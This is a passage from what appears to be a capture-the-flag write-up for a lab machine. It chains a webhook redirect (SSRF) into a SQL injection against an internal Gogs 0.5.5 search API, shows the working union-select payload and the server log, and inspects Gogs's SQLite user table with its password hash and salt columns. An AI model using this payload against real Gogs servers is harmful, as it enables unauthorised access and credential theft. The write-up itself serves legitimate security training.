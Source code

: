 If I try to replace `3` with `version()`, it fails. That implies the DB may not be MySQL. SQLite uses `sqlite_version()`, and putting that in works:

```
10.10.11.176 - - [06/Jan/2023 22:09:04] "GET /redirect HTTP/1.0" 302 -
Got Hook!
{'webhookUrl': 'http://10.10.14.6/hook', 'monitoredUrl': 'http://10.10.14.6/redirect', 'health': 'up', 'body': '{"data":[{"username":"susanne","avatar":"//1.gravatar.com/avatar/c11d48f16f254e918744183ef7b89fce"},{"username":"3.8.5","avatar":"//1.gravatar.com/avatar/15"}],"ok":true}', 'message': 'HTTP/1.0 302 FOUND', 'headers': {'Content-Type': 'application/json; charset=UTF-8', 'Content-Length': '170', 'Location': "http://127.0.0.1:3000/api/v1/users/search?q=')/**/union/**/all/**/select/**/1,2,sqlite_version(),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27--/**/-", 'Server': 'Werkzeug/2.0.2 Python/3.8.10', 'Date': 'Fri, 06 Jan 2023 22:09:04 GMT', 'Set-Cookie': '_csrf=; Path=/; Max-Age=0'}}
10.10.11.176 - - [06/Jan/2023 22:09:04] "POST /hook HTTP/1.1" 200 -

```

It’s running SQLite version 3.8.5.

#### Run Gogs Locally

To get this to work, I’ll need to get Gogs running locally. I’ll download this version form the [release page](https://github.com/gogs/gogs/releases/tag/v0.5.5). It’s a zip with a compiled binary in it. I’ll run `./gogs web`, and it starts the web server.

Visiting `127.0.0.1:3000` presents the install page:

![image-20230106171650744](https://0xdfimages.gitlab.io/img/image-20230106171650744.png)

I’ll leave the DB as it is (matching what Health is using, SQLite), and make an admin user. Once I do that, It says it works, and I get the login:

![image-20230106171842889](https://0xdfimages.gitlab.io/img/image-20230106171842889.png)

Pasting my query into Firefox, it works:

![image-20230106172224759](https://0xdfimages.gitlab.io/img/image-20230106172224759.png)

#### Enumerate Users Table

It says it made the DB in `data/gogs.db`. I’ll check that out:

```

oxdf@hacky$ sqlite3 data/gogs.db 
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> .schema user
CREATE TABLE `user` (`id` INTEGER PRIMARY KEY AUTOINCREMENT NOT NULL, `lower_name` TEXT NOT NULL, `name` TEXT NOT NULL, `full_name` TEXT NULL, `email` TEXT NOT NULL, `passwd` TEXT NOT NULL, `login_type` INTEGER NULL, `login_source` INTEGER NOT NULL DEFAULT 0, `login_name` TEXT NULL, `type` INTEGER NULL, `num_followers` INTEGER NULL, `num_followings` INTEGER NULL, `num_stars` INTEGER NULL, `num_repos` INTEGER NULL, `avatar` TEXT NOT NULL, `avatar_email` TEXT NOT NULL, `location` TEXT NULL, `website` TEXT NULL, `is_active` INTEGER NULL, `is_admin` INTEGER NULL, `rands` TEXT NULL, `salt` TEXT NULL, `created` NUMERIC NULL, `updated` NUMERIC NULL, `description` TEXT NULL, `num_teams` INTEGER NULL, `num_members` INTEGER NULL);
CREATE UNIQUE INDEX `UQE_user_name` ON `user` (`name`);
CREATE UNIQUE INDEX `UQE_user_email` ON `user` (`email`);
CREATE UNIQUE INDEX `UQE_user_lower_name` ON `user` (`lower_name`);

```

